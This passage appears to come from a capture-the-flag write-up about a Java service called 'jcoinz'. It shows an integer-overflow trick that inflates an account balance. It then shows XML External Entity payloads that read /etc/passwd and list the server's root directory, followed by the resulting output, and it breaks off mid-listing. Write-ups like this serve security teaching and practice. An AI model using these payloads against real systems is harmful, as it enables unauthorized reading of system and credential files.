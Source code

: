     [?] Action: 1
    [?] Amount of jcoinz to send: -2147483648
    [-] Decreased the account of "billy" by -2147483648
    [+] Thank you very much!

    1 - sends jcoinz to charity
    2 - send a secret xml message to the admin
    Your name: billy
    Your amount of jcoinz: 2147483647

Now we have enough coins to send an XML message! Now we need to figure
out how to
abuse this to read the flag from the server..

From Wikipedia entry on XXE exploits:
`https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing` :

    <?xml version="1.0" encoding="ISO-8859-1"?>
     <!DOCTYPE foo [
       <!ELEMENT foo ANY >
       <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

to show contents of `/etc/passwd/`. Since we don't know which file we
need, we can adapt it to list contents of
base directory

    # list files in root directory
    <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///" >]><foo>&xxe;</foo>

Yes! this works:

    $ java -jar jcoinz.jar
    $$$$$$$$$$$$$$$$$$
    $ JCOINZ SERVICE $
    $$$$$$$$$$$$$$$$$$

    [..]

    1 - sends jcoinz to charity
    2 - send a secret xml message to the admin
    Your name: billy
    Your amount of jcoinz: 2147482308

    [?] Action: 2
    [-] Decreased the account of "billy" by 1337
    [?] XML Message: <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///" >]><foo>&xxe;</foo>
    [+] Your secret xml message: <foo>.rpmdb
    bin
    boot
    cdrom
    dev
    etc
    export
    home
    initrd.img
    initrd.img.old
    lib
    lib32
    lib64
    lost+found
    media
    mnt
    opt
    proc
    root
